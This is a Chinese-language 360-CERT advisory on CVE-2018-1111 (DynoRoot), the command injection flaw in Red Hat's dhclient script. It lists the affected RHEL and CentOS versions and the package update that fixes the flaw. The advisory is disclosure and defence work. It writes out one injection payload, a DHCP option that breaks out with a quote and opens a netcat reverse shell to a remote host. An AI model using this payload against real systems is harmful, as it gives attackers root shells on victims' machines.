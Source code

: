 > 原文链接: https://www.anquanke.com//post/id/145201 


# DynoRoot：Red Hat DHCP客户端命令执行漏洞(CVE-2018-1111)预警


                                阅读量   
                                **182878**
                            
                        |
                        
                                                                                    



[![](https://p2.ssl.qhimg.com/t01c0b1c2c0c7782579.png)](https://p2.ssl.qhimg.com/t01c0b1c2c0c7782579.png)



报告编号： B6-2018-051601

报告来源： 360-CERT

报告作者： 360-CERT

更新日期： 2018-05-16



## 0x00 漏洞概述

近日，红帽官方发布了安全更新，修复了编号为CVE-2018-1111的远程代码执行漏洞，攻击者可以通过伪造DHCP服务器发送响应包，攻击红帽系统，获取root权限并执行任意命令。

目前相关利用代码已经公开，可用于本地网络攻击；360-CERT此漏洞进行了技术分析，认为该漏洞危害等级严重，建议使用相关用户尽快进行更新。

[![](https://p403.ssl.qhimgs4.com/t01018a31fc9beb876e.png)](https://p403.ssl.qhimgs4.com/t01018a31fc9beb876e.png)



## 0x01 漏洞影响面

#### 影响版本
- Red Hat Enterprise Linux Server 6
- Red Hat Enterprise Linux Server 7
- CentOS 6
- CentOS 7
#### 修复方案
- 受影响产品的更新
[![](https://p3.ssl.qhimg.com/t01e250298fc95c89cc.png)](https://p3.ssl.qhimg.com/t01e250298fc95c89cc.png)
- 软件包更新
```
#yum update dhclient 
    #rpm -qa --changelog dhclient  | grep CVE-2018
        - Resolves: #1570898 - Fix CVE-2018-1111: Do not parse backslash as escape character
```



## 0x02 漏洞详情

DHCP 是一个局域网的网络协议，主要用于内部网络动态IP地址分配。

Red Hat提供的DHCP客户端软件包dhclient的脚本为`/etc/NetworkManager/dispatcher.d/11-dhclient`（Red Hat Enterprise Linux 7）和`/etc/NetworkManager/dispatcher.d/10-dhclient`（Red Hat Enterprise Linux 6）；当NetworkManager组件从DHCP服务器收到DHCP响应时执行该脚本。

[![](https://p403.ssl.qhimgs4.com/t013cd92966ddb3490b.jpeg)](https://p403.ssl.qhimgs4.com/t013cd92966ddb3490b.jpeg)

使用单引号使参数值逃逸成功，导致了命令执行

```
--dhcp-option="252,x'&amp;nc -e /bin/bash 10.1.1.1 1337 #"
```



## 0x03 时间线

**2018-05-16** RedHat 官方发布更新公告

**2018-05-16** 360-CERT对漏洞进行评估，发布预警通告



## 0x04 参考链接
1. [https://access.redhat.com/errata/RHSA-2018:1458](https://access.redhat.com/errata/RHSA-2018:1458)
1. [https://twitter.com/_fel1x/status/996388421273882626](https://twitter.com/_fel1x/status/996388421273882626)
1. [https://dynoroot.ninja/](https://dynoroot.ninja/)